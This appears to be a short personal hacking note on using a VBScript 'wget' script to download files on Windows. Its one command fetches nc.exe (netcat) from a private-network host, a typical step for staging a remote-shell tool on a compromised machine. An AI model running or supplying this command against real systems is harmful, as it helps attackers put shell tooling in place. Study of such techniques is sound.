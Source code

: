 # VBScript Download Files

```
cscript wget.vbs http://192.168.0.1/nc.exe nc.exe
```

` zet/20221003151228/README.md `

# Related

- [20221014185547](/zet/20221014185547/README.md) kb file named kb/hacking/tricks/vbscript-wget-hack.md
- [20221003151230](/zet/20221003151230/README.md) VBScript
- ~/kb/hacking/tricks/vbscript-wget-hack.md

Tags:

    #hacking #trick #vbscript 
